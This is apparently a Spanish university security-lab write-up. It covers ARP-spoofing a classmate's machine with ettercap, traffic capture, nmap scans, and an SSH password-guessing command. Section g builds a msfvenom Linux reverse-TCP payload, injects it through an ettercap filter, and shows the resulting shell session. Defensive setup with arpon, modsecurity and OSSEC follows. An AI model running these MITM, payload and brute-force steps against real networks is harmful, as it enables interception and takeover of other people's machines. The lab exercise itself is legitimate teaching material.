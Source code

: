 # PRACTICA 2 LSI

<details>
  <summary>a) Instale el ettercap y pruebe sus opciones básicas en línea de comando.</summary>

  ```console
  root@debian:/home/lsi# apt install ettercap-text-only
  ```
</details>
<details>
  <summary>b) Capture paquetería variada de su compañero de prácticas que incluya varias sesiones HTTP. Sobre esta paquetería (puede utilizar el wireshark para los siguientes subapartados)</summary>

  Previo a los apartados debemos hacer un MITM a la máquina de nuestro compañero :
  ```console
root@debian:/home/lsi# ettercap -T -q -i ens33 -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help
  ```
Luego en otra terminal hacemos un tcpdump para guardar el trafico
```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w compa.pcap
tcpdump: listening on ens33, link-type EN10MB (Ethernet), snapshot length 65535 bytes
916 packets captured
919 packets received by filter
0 packets dropped by kernel
```
Este archivo me lo paso a mi máquina real y lo leo desde Wireshark.

  -  Identifique los campos de cabecera de un paquete TCP
```console
     Frame 6: 66 bytes on wire (528 bits), 66 bytes captured (528 bits)
Ethernet II, Src: Alcatel-_10:84:b9 (dc:08:56:10:84:b9), Dst: VMware_97:15:21 (00:50:56:97:15:21)
Internet Protocol Version 4, Src: 10.20.38.93, Dst: 10.11.48.71
Transmission Control Protocol, Src Port: 56904, Dst Port: 22, Seq: 1, Ack: 45, Len: 0
    Source Port: 56904
    Destination Port: 22
    [Stream index: 0]
    [Conversation completeness: Incomplete (12)]
    [TCP Segment Len: 0]
    Sequence Number: 1    (relative sequence number)
    Sequence Number (raw): 2990874455
    [Next Sequence Number: 1    (relative sequence number)]
    Acknowledgment Number: 45    (relative ack number)
    Acknowledgment number (raw): 1338463224
    1000 .... = Header Length: 32 bytes (8)
    Flags: 0x010 (ACK)
    Window: 501
    [Calculated window size: 501]
    [Window size scaling factor: -1 (unknown)]
    Checksum: 0x6622 [unverified]
    [Checksum Status: Unverified]
    Urgent Pointer: 0
    Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
    [Timestamps]
    [SEQ/ACK analysis]
```
     
  -  Filtre la captura para obtener el tráfico HTTP
  -  Obtenga los distintos “objetos” del tráfico HTTP (imágenes, pdfs, etc.)
  -  Visualice la paquetería TCP de una determinada sesión.

      Analyze > Follow > TCP Stream
  
  -  Sobre el total de la paquetería obtenga estadísticas del tráfico por protocolo como fuente de información para un análisis básico del tráfico.

     Statistics > Protocol Hierarchy
  
  -  Obtenga información del tráfico de las distintas “conversaciones” mantenidas.

     Statistics > Conversations
  
  -  Obtenga direcciones finales del tráfico de los distintos protocolos como mecanismo para determinar qué circula por nuestras redes.

     Statistics > Endpoints

</details>
<details>
	<summary>c) Obtenga la relación de las direcciones MAC de los equipos de su segmento.</summary>

```console
 root@debian:/home/lsi# nmap -sP 10.11.48.0/23 >> nmap.txt
```
En el archivo .txt podemos ver las direcciones MAC.

</details>

<details>
	<summary>d) Obtenga la relación de las direcciones IPv6 de su segmento.</summary>

 ```console
root@debian:/home/lsi#  ping6 -c2 -I ens33 ff02::1 >> ipv6.txt
root@debian:/home/lsi# ip -6 neigh >> neighbours.txt
 ```
</details>
<details>
	<summary>e)Obtenga el tráfico de entrada y salida legítimo de su interface de red ens33 e investigue los servicios, conexiones y protocolos involucrados.</summary>

```console
root@debian:/home/lsi# tcpdump -i ens33 -s 65535 -w my.pcap
```
</details>
<details>
	<summary>f) Mediante arpspoofing entre una máquina objetivo (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.</summary>

- Utilizamos el archivo compa.pcap obtenido de la máquina de nuestro compañero. Statistics > HTTP > Requests:

</details>
<details>
	<summary>g) Instale metasploit. Haga un ejecutable que incluya un Reverse TCP meterpreter payload para plataformas linux. Inclúyalo en un filtro ettercap y aplique toda su sabiduría en ingeniería social para que una víctima u objetivo lo ejecute.</summary>

1. Instalar metasploit
```console
  root@debian:/home/lsi# curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
2. Creamos el playload:
```console
root@debian:/home/lsi# msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.11.48.71 LPORT=4444 -f elf > payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes

```
3. Lo metemos en la victima :
```console
root@debian:/home/lsi# nano ett.filter
root@debian:/home/lsi# etterfilter ett.filter -o ig.ef

etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team


 14 protocol tables loaded:
	DECODED DATA udp tcp esp gre icmp ipv6 ip arp wifi fddi tr eth 

 13 constants loaded:
	VRRP OSPF GRE UDP TCP ESP ICMP6 ICMP PPTP PPPOE IP6 IP ARP 

 Parsing source file 'ett.filter'  done.

 Unfolding the meta-tree  done.

 Converting labels to real offsets  done.

 Writing output to 'ig.ef'  done.

 -> Script encoded into 6 instructions.


root@debian:/home/lsi# echo 1 > /proc/sys/net/ipv4/ip_forward

root@debian:/home/lsi# ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.48.183/ //10.11.48.1/

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Content filters loaded from ig.ef...
Listening on:
 ens33 -> 00:50:56:97:15:21
	  10.11.48.71/255.255.254.0
	  fe80::250:56ff:fe97:1521/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Scanning for merged targets (2 hosts)...

* |==================================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 10.11.48.183 00:50:56:97:EB:AC

 GROUP 2 : 10.11.48.1 DC:08:56:10:84:B9
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

replaced href.

```
4. Reverse shell en el atacante :
```console
root@debian:/home/lsi# msfconsole
Metasploit tip: View all productivity tips with the tips command
                                                  

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.3.42-dev-                         ]
+ -- --=[ 2374 exploits - 1230 auxiliary - 414 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.48.71
LHOST => 10.11.48.71
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.11.48.71:4444 
[*] Sending stage (36 bytes) to 10.11.48.183
ls
[*] Command shell session 1 opened (10.11.48.71:4444 -> 10.11.48.183:44364) at 2023-11-07 16:05:31 +0100

Descargas
Documentos
Escritorio
Imágenes
Música
Plantillas
Público
Vídeos
coreruleset-3.3.0
dict.txt
etter.filter
logsInicio
logssh
ossec-hids-3.7.0
ossec-hids-3.7.0.zip
payload.bin
echo h4ck3d > h4ck3d.txt
cat h4ck3d.txt
h4ck3d
exit
[*] 10.11.48.183 - Command shell session 1 closed.
msf6 exploit(multi/handler) > 

```
	
</details>
<details>
	<summary>h) Haga un MITM en IPv6 y visualice la paquetería.</summary>
</details>




<details>
	<summary>i) Pruebe alguna herramienta y técnica de detección del sniffing (preferiblemente arpon).</summary>

1. Vaciamos arp : 
```console
root@debian:/home/lsi# ip -s -s neigh flush all
10.11.49.104 dev ens33 lladdr 00:50:56:97:10:6b  used 486/546/486probes 0 STALE 
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 3/0/3probes 1 REACHABLE 
10.11.48.183 dev ens33 lladdr 00:50:56:97:eb:ac  ref 1 used 17/17/17probes 1 REACHABLE 

*** Round 1, deleting 3 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 2, deleting 1 entries ***
10.11.48.1 dev ens33 lladdr dc:08:56:10:84:b9  ref 1 used 0/0/0probes 4 REACHABLE 

*** Round 3, deleting 1 entries ***
10.11.48.1 dev ens33  ref 1 used 0/60/0probes 4 INCOMPLETE 

*** Round 4, deleting 1 entries ***
*** Flush is complete after 4 rounds ***

```
2. Usamos arpon para detectar :
```console
root@debian:/home/lsi# cat /etc/arpon.conf
#
# ArpON configuration file.
#
# See the arpon(8) man page for details.
#

#
# Static entries matching the eth0 network interface:
#
# First static entry:
#192.168.1.1     58:ac:78:10:b9:77
# Second static entry:
#192.168.1.3     d4:be:d9:fe:8b:45
# Third static entry:
#192.168.1.4     90:94:e4:bb:1c:10

#
# Static entries matching the eth1 network interface:
#
# First static entry:
#10.0.1.1        58:ac:78:88:1a:bb
# Second static entry:
#10.0.10.1       90:94:e4:7e:f4:59
root@debian:/home/lsi# arpon -d -i ens33 -H
root@debian:/home/lsi# Nov 07 16:18:49 [INFO] Background process is running (2491).
^C
root@debian:/home/lsi# ps -A | grep arpon
   2491 ?        00:00:00 arpon
root@debian:/home/lsi# kill 2491

```
</details>
<details>
	<summary>j) Pruebe distintas técnicas de host discovey, port scanning y OS fingerprinting sobre las máquinas del laboratorio de prácticas en IPv4. Realice alguna de las pruebas de port scanning sobre IPv6. ¿Coinciden los servicios prestados por un sistema con los de IPv4?.</summary>

1. Escaneamos en IPv4
```console
root@debian:/home/lsi# nmap -A 10.11.48.1/24 > nmap_full.txt
```
2. Escaneapos IPv6
```console
root@debian:/home/lsi# nmap -A -6 fe80::250:56ff:fe97:d0a2 > nmap_6.txt
```
</details>
<details>
	<summary>k) Obtenga información “en tiempo real” sobre las conexiones de su máquina, así como del ancho de banda consumido en cada una de ellas.</summary>

```console
root@debian:/home/lsi# iftop -i ens33
```
```console
root@debian:/home/lsi# vnstat -l -i ens33
```
</details>

<details>
	<summary>l) Monitorizamos nuestra infraestructura.:</summary>

- Instale prometheus y node_exporter y configúrelos para recopilar todo tipo de métricas de su máquina linux.

  
- Posteriormente instale grafana y agregue como fuente de datos las métricas de su equipo de prometheus.

  
- Importe vía grafana el dashboard 1860.

  
- En los ataques de los apartados m y n busque posibles alteraciones en las métricas visualizadas.

  
</details>

<details>
	<summary>m) PARA PLANTEAR DE FORMA TEÓRICA.: ¿Cómo podría hacer un DoS de tipo direc attack contra un equipo de la red de prácticas? ¿Y mediante un DoS de tipo reflective flooding attack?.</summary>

 
</details>

<details>
	<summary>n) Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7). ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?</summary>

```console
root@debian:/home/lsi# apt install apache2
```
- ¿Cómo podría proteger dicho servicio ante este tipo de ataque?
  Con un firewall de app web como modsecurity.
- Y si se produjese desde fuera de su segmento de red?
- ¿Cómo podría tratar de saltarse dicha protección?
</details>

<details>
	<summary>o) Instale y configure modsecurity. Vuelva a proceder con el ataque del apartado anterior. ¿Qué acontece ahora?</summary>

```console
root@debian:/home/lsi# apt install libapache2-mod-security2
```

```console
root@debian:/home/lsi# a2enmod headers
Enabling module headers.
To activate the new configuration, you need to run:
  systemctl restart apache2
```
```console
root@debian:/home/lsi# cp /etc/modsecurity/modsecurity.conf-recommended modsecurity.conf
root@debian:/home/lsi# nano modsecurity.conf
 ###Change SecRuleEngine from DetectionOnly to On
root@debian:/home/lsi# cp modsecurity.conf /etc/modsecurity/modsecurity.conf
```

```console
root@debian:/home/lsi# apt install libapache2-mod-evasive
root@debian:/home/lsi# a2enmod evasive
root@debian:/home/lsi# cat /etc/apache2/mods-enabled/evasive.conf 
<IfModule mod_evasive20.c>
    #DOSHashTableSize    3097
    #DOSPageCount        2
    #DOSSiteCount        50
    #DOSPageInterval     1
    #DOSSiteInterval     1
    #DOSBlockingPeriod   10

    #DOSEmailNotify      you@yourdomain.com
    #DOSSystemCommand    "su - someuser -c '/sbin/... %s ...'"
    #DOSLogDir           "/var/log/mod_evasive"
</IfModule>

```
 
</details>
<details>
	<summary> p) Buscamos información.: </summary>

- Obtenga de forma pasiva el direccionamiento público IPv4 e IPv6 asignado a la Universidade da Coruña

- Obtenga información sobre el direccionamiento de los servidores DNS y MX de la Universidade da Coruña.

- ¿Puede hacer una transferencia de zona sobre los servidores DNS de la UDC?.

- En caso negativo, obtenga todos los nombres.dominio posibles de la UDC.

- ¿Qué gestor de contenidos se utiliza en www.usc.es?

</details>
<details>
	<summary> q) Trate de sacar un perfil de los principales sistemas que conviven en su red de prácticas, puertos accesibles, fingerprinting, etc.</summary>
 
```console
root@debian:/home/lsi# nmap -A 10.11.48.0/23 > nmap_full.txt
```
</details>
<details>
	<summary> r) Realice algún ataque de “password guessing” contra su servidor ssh y compruebe que el analizador de logs reporta las correspondientes alarmas.</summary>

```console
root@debian:/home/lsi# medusa -h 10.11.48.183 -u lsi -P pwd.text -M ssh
```

</details>

<details>
	<summary>s) Reportar alarmas está muy bien, pero no estaría mejor un sistema activo, en lugar de uno pasivo. Configure algún sistema activo, por ejemplo OSSEC, y pruebe su funcionamiento ante un “password guessing”.</summary>

```console
root@debian: /home/lsi# git clone https://github.com/ossec/ossec-hids.git
root@debian:/home/lsi/ossec-hids# ./install.sh
root@debian:/home/lsi/ossec-hids# /var/ossec/bin/ossec-control start
```

 
</details>
<details>
	<summary>t) Supongamos que una máquina ha sido comprometida y disponemos de un fichero con sus mensajes de log. Procese dicho fichero con OSSEC para tratar de localizar evidencias de lo acontecido (“post mortem”). Muestre las alertas detectadas con su grado de criticidad, así como un resumen de las mismas.</summary>

```console
root@debian:/home/lsi#  cat /var/log/auth.log | /var/ossec/bin/ossec-logtest -a
2023/11/09 17:06:05 ossec-testrule: INFO: Reading local decoder file.
2023/11/09 17:06:06 ossec-testrule: INFO: Started (pid: 1381).
** Alert 1699545966.1: mail  - syslog,fts,authentication_success
2023 Nov 09 17:06:06 debian->stdin
Rule: 10100 (level 4) -> 'First time user logged in.'
Src IP: 10.20.37.166
User: lsi
2023-11-09T17:01:52+01:00 debian sshd[504536]: Accepted password for lsi from 10.20.37.166 port 45824 ssh2

** Alert 1699545966.2: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:01:52+01:00 debian sshd[504536]: pam_unix(sshd:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.3: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:11.072216+01:00 debian sshd[2722]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.4: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:13.179170+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.5: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:14.754833+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.6: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:17.669016+01:00 debian sshd[2722]: Failed password for lsi from 10.11.48.183 port 60390 ssh2

** Alert 1699545966.7: mail  - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5758 (level 8) -> 'Maximum authentication attempts exceeded.'
Src IP: 10.11.48.183
Src Port: 60390
User: lsi
2023-11-09T17:02:17.984079+01:00 debian sshd[2722]: error: maximum authentication attempts exceeded for lsi from 10.11.48.183 port 60390 ssh2 [preauth]

** Alert 1699545966.8: - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2501 (level 5) -> 'User authentication failure.'
2023-11-09T17:02:17.984416+01:00 debian sshd[2722]: Disconnecting authenticating user lsi 10.11.48.183 port 60390: Too many authentication failures [preauth]

** Alert 1699545966.9: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:17.984636+01:00 debian sshd[2722]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.10: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:18.075385+01:00 debian sshd[2724]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.11: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:02:20+01:00 debian su[504566]: pam_unix(su:session): session opened for user root(uid=0) by lsi(uid=1000)

** Alert 1699545966.12: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:20.473583+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.13: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:24.298381+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.14: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:27.213097+01:00 debian sshd[2724]: Failed password for lsi from 10.11.48.183 port 48854 ssh2

** Alert 1699545966.15: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.183
User: lsi
2023-11-09T17:02:27.282521+01:00 debian sshd[2724]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.183  user=lsi

** Alert 1699545966.16: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:44+01:00 debian sshd[504569]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.17: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:46+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.18: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:48+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.19: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: Failed password for lsi from 10.11.48.71 port 51340 ssh2

** Alert 1699545966.20: mail  - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5758 (level 8) -> 'Maximum authentication attempts exceeded.'
Src IP: 10.11.48.71
Src Port: 51340
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: error: maximum authentication attempts exceeded for lsi from 10.11.48.71 port 51340 ssh2 [preauth]

** Alert 1699545966.21: - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2501 (level 5) -> 'User authentication failure.'
2023-11-09T17:02:51+01:00 debian sshd[504569]: Disconnecting authenticating user lsi 10.11.48.71 port 51340: Too many authentication failures [preauth]

** Alert 1699545966.22: mail  - syslog,access_control,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 2502 (level 10) -> 'User missed the password more than one time'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:51+01:00 debian sshd[504569]: PAM 2 more authentication failures; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.23: - pam,syslog,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5503 (level 5) -> 'User login failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:52+01:00 debian sshd[504582]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.11.48.71  user=lsi

** Alert 1699545966.24: - syslog,sshd,authentication_failed,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5716 (level 5) -> 'SSHD authentication failed.'
Src IP: 10.11.48.71
User: lsi
2023-11-09T17:02:54+01:00 debian sshd[504582]: Failed password for lsi from 10.11.48.71 port 40562 ssh2

** Alert 1699545966.25: - pam,syslog,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5502 (level 3) -> 'Login session closed.'
2023-11-09T17:03:19.932470+01:00 debian sshd[1173]: pam_unix(sshd:session): session closed for user lsi

** Alert 1699545966.26: - pam,syslog,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5502 (level 3) -> 'Login session closed.'
2023-11-09T17:03:19.938755+01:00 debian su[2520]: pam_unix(su:session): session closed for user root

** Alert 1699545966.27: mail  - syslog,errors,
2023 Nov 09 17:06:06 debian->stdin
Rule: 1002 (level 2) -> 'Unknown problem somewhere in the system.'
2023-11-09T17:03:19.973671+01:00 debian sshd[1173]: pam_systemd(sshd:session): Failed to release session: Interrupted system call

** Alert 1699545966.28: - syslog,sshd,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5715 (level 3) -> 'SSHD authentication success.'
Src IP: 10.20.36.34
User: lsi
2023-11-09T17:04:04.231046+01:00 debian sshd[1217]: Accepted password for lsi from 10.20.36.34 port 39014 ssh2

** Alert 1699545966.29: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:04.231988+01:00 debian sshd[1217]: pam_unix(sshd:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.30: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:04.393876+01:00 debian (systemd): pam_unix(systemd-user:session): session opened for user lsi(uid=1000) by (uid=0)

** Alert 1699545966.31: - pam,syslog,authentication_success,
2023 Nov 09 17:06:06 debian->stdin
Rule: 5501 (level 3) -> 'Login session opened.'
2023-11-09T17:04:22.120251+01:00 debian su[1375]: pam_unix(su:session): session opened for user root(uid=0) by lsi(uid=1000)

root@debian:/home/lsi# cat /var/log/auth.log | /var/ossec/bin/ossec-logtest -a |/var/ossec/bin/ossec-reportd
2023/11/09 17:07:01 ossec-reportd: INFO: Started (pid: 1385).
2023/11/09 17:07:01 ossec-testrule: INFO: Reading local decoder file.
2023/11/09 17:07:01 ossec-testrule: INFO: Started (pid: 1384).
2023/11/09 17:07:06 ossec-reportd: INFO: Report completed. Creating output...
 
Report completed. ==
------------------------------------------------
->Processed alerts: 31
->Post-filtering alerts: 31
->First alert: 2023 Nov 09 17:07:01
->Last alert: 2023 Nov 09 17:07:01
 
 
Top entries for 'Source ip':
------------------------------------------------
10.11.48.183                                                                  |11      |
10.11.48.71                                                                   |8       |
10.20.36.34                                                                   |1       |
10.20.37.166                                                                  |1       |
 
 
Top entries for 'Username':
------------------------------------------------
lsi                                                                           |21      |
 
 
Top entries for 'Level':
------------------------------------------------
Severity 5                                                                    |16      |
Severity 3                                                                    |8       |
Severity 10                                                                   |3       |
Severity 8                                                                    |2       |
Severity 2                                                                    |1       |
Severity 4                                                                    |1       |
 
 
Top entries for 'Group':
------------------------------------------------
syslog                                                                        |31      |
authentication_failed                                                         |21      |
sshd                                                                          |13      |
pam                                                                           |11      |
authentication_success                                                        |7       |
access_control                                                                |5       |
errors                                                                        |1       |
fts                                                                           |1       |
 
 
Top entries for 'Location':
------------------------------------------------
debian->stdin                                                                 |31      |
 
 
Top entries for 'Rule':
------------------------------------------------
5716 - SSHD authentication failed.                                            |10      |
5501 - Login session opened.                                                  |5       |
5503 - User login failed.                                                     |4       |
2502 - User missed the password more than one time                            |3       |
2501 - User authentication failure.                                           |2       |
5502 - Login session closed.                                                  |2       |
5758 - Maximum authentication attempts exceeded.                              |2       |
1002 - Unknown problem somewhere in the system.                               |1       |
10100 - First time user logged in.                                            |1       |
5715 - SSHD authentication success.                                           |1       |
 

```

</details>

Defensa : 
- Tirar abajo servidor web del compañero.
-  Levantar cosas para protegernos de sus ataques
-  slowlories
-  slowget
-  Visualizar las URL del compañero
-  fichero pcap : uno propio y uno del compañero.
-  Metasploit
-  ett.filter
-  Information gethering : direccionamiento, transferencia de zona.
-  Prometeus.  grafana : Dashboard.
-  OSSEC. (Bajar timeouts a 120s)
-  arpon
-  wireshark : https://es.linkedin.com/learning/fundamentos-de-protocolos-de-red-http-y-https/analizamos-trafico-tcp-y-http-con-la-herramienta-wireshark
-   slowhttp : https://www.hackplayers.com/2016/06/ataques-dos-slow-http-mediante-SlowHTTPTest.html
-   linklocal : https://es.wikipedia.org/wiki/Direcci%C3%B3n_de_Enlace-Local
